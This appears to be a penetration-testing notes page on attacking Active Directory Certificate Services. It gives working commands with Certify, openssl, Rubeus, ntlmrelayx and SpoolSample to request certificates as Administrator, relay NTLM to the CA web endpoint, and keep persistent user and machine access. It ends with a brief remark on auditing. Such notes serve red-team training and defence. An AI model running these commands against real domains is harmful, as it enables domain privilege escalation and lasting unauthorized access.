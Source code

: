 ```yaml
---
title: Active Directory Certificate Services
category: Active Directory
order: 8
---
```


Active Directory Certificate Services (AD CS) is a server role taht allows you to build a public key infrastructure (PKI). Which can provide public key cryptography, digital certificates and digital signature capabilities.

Some practical applicatios include Secure/Multipurpose Internet Mail Extensions(S/MIME), secure wireless networks, VPNs, IPSec, Encrypting File System (EFS), smart card logon and SSL/TLS.

If a correct implmentation is given, can improve the security of an organisation by:

* Confidentiality through encryption.
* Integrity through digital signatures.
* Authentication by associating certificate keys with computers, users or devices accounts on networks.

Misconfiguration of the AD CS can lead to domain privilege escalations or persistence.

# Enumerating Certificate Authorities

To find AD CS Certificate Authorities (CA) in domain we can run `certify` with `cas` as parameter.

* [https://github.com/GhostPack/Certify](https://github.com/GhostPack/Certify)

```powershell
.\Certify.exe cas
```
We will see in te output the `Root CAs` and the `Enrollment CAs`, in addition to this we will see the certificate chain and the list of certificate templates for each CA, and some information about which principals are allowed to manage them.

# Misconfigured Certificate Templates

`Certify` also allow us to find vulnerable CAs.

```powershell
.\Certify.exe find /vulnerable
```

* `ENROLLEE_SUPPLIES_SUBJECT` allows the certificate requestor to provide a Subject Alternative Name (SAN).
* `Client Authentication` means that the certificate can be used for authentication.

If a pincipal that you control had `WriteOwner`, `WriteDacl`, `WriteProperty`, `Owner` or `Enrollment Rights` and the CA is configured with `ENROLLEE_SUPPLIES_SUBJECT` and `Client Authentication`, we will be able to request a certificate for any user of the domain an use it to autenticate to the domain.

```powershell
.\Certify.exe /ca:dc.corp.local\ca-1 /template:TemplateName /altname:Administrator
```

Copy the whole certificate including the private key and save it to `cert.pem`. Then with `openssl` we can convert it to `pfx` format.

```
$ openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
Enter Export Password:
Verifying - Enter Export Password:
```

> **Note** It is recommended to enter a password.

Convert `cert.pfx` into base64.

```
cat cert.pfx | base64 -w 0
```
And finally we can use `Rubeus` to request a TGT.

```
.\Rubeus asktgt /user:Administrator /certificate:<B64-CERT> /password:certificate-password /nowrap
```

# NTLM Relaying to ADCS HTTP Endpoints

Active Directory Certificate Service support HTTP enrolment methods and even inlcudes a GUI. The endpoint is often found in:

```
https://ip-addr/certsrv
```
By default supports NTLM and Negotiate authentication methods so these endpoints are vulnerable to NTLM relay attacks. A common abuse method is to force a DC to authenticate to an attacker controlled location, relay the request to the CA and obtain the certificate for that DC, then use it to obtain a TGT. 

> **Note**: We can not relay the authentication back to the original machine, which means we can not PrintSpooler the DC if it contains the CA.

```
ntlmrelayx.py -t http://ip-addr/certsrv/certfnsh.asp -smb2support --adcs --no-http-server
```
Use one of the remote authentication methods to force a connection to our compromised server.

```powershell
.\SpoolSample.exe 10.10.10.12 10.10.10.13
```

On the output of `ntlmrelay` we will see the base64 certificate of the machine account. After obtaining the TGT we can abuse `S4U2self` to obtain a TGS of CIFS service.

# User Persistence

We can craft a certificate for later use if managerial approval is not required for certificate requests.

```
.\Certify.exe find /clientauth
.\Certify.exe find /clientauth /ca:dc.corp.local\ca-1
```

This will show every certificat template that has a suitable Extended Key Usage (EKU) for client authentication. We can request a certificate for our use with:

```
.\Certify.exe request /ca:dc.corp.local\ca-1 /template:User
```
This certificate will allow us to request a TGT with Rubeus, by default is valid for a year and will continue working even if the user changes their password.

# Computer Persistence

Similar to User, machines are a special type of user in AD and can have their own certificates issued. The default template for computers is called `Machines`.

```
.\Certify.exe request /ca:dc.corp.local\ca-1 /template:Machine /machine
```

> **Note**: The `/machine` parameters tells to Certify to auto-elevate to SYSTEM and assume the identity of the machine account.

# AD CS Auditing

AD CS logging is not enabled by default, so it is unsurprisingly common for defenders to be blind to this activity in their domain.

`Audit Certification Services` must also be enalbed via GPO to `Success` or `Failure` depending on the tolerance of the organization.